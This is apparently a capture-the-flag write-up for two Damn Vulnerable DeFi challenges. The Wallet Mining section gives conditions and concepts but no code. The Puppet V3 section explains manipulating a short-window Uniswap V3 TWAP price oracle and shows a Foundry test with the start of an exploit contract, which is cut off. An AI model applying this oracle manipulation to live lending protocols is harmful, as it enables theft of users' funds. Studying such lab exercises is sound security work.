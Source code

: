 ### Wallet Mining

Condition:
- Player recovered all tokens for the `user`
- Player sent payment to `ward`

Key Concept:
- Proxy collision
- `SAFE_SINGLETON_FACTORY_ADDRESS`: Used to deploy `copy` and `factory` contracts
- `CREATEX_ADDRESS`: Used to deploy `AuthorizerFactory`

Solution:
- 換掉 `authorizer` ? ❌
- upgrade `authorizer` ? ❌
- `init` again ? ❌


PoC:

### Puppet V3

Condition:
- Rescue all `dvt` from `pool` to `recovery`
- Must finish before `block.timestamp - initialBlockTimestamp >= 115`

Key Concept:
- TWAP
    - [Uniswap as a Price Oracle](https://docs.uniswap.org/sdk/v3/guides/advanced/price-oracle)
- UniswapV3
    - [UniswapV3Pool.sol](https://github.com/Uniswap/v3-core/blob/main/contracts/UniswapV3Pool.sol)
    - [Oracle.sol](https://github.com/Uniswap/v3-core/blob/main/contracts/libraries/Oracle.sol)
    - [OracleLibrary.sol](https://github.com/Uniswap/v3-periphery/blob/main/contracts/libraries/OracleLibrary.sol)


Solution:
- The price oracle is again manipulatable, and since the TWAP period is 10 minutes, which is somewhat short 


PoC:
```solidity
// test
function test_puppetV3() public checkSolvedByPlayer {
    IUniswapV3Pool uniswapPool = IUniswapV3Pool(uniswapFactory.getPool(address(weth), address(token), FEE));

    PuppetV3Exploiter exploiter = new PuppetV3Exploiter{value: PLAYER_INITIAL_ETH_BALANCE}(
        uniswapPool,
        lendingPool,
        address(token),
        payable(address(weth)),
        recovery
    );
    token.transfer(address(exploiter), PLAYER_INITIAL_TOKEN_BALANCE);
    exploiter.exploit();

    vm.warp(block.timestamp + 114);
    exploiter.post_exploit();
}

// exploit contract
contract PuppetV3Exploiter {
    uint256 constant LENDING_POOL_INITIAL_TOKEN_BALANCE = 1_000_000e18;
    uint256 constant DEPOSIT_FACTOR = 3;
    uint32 constant TWAP_PERIOD = 10 minutes;

    IUniswapV3Pool private _uniswapv3pool;
```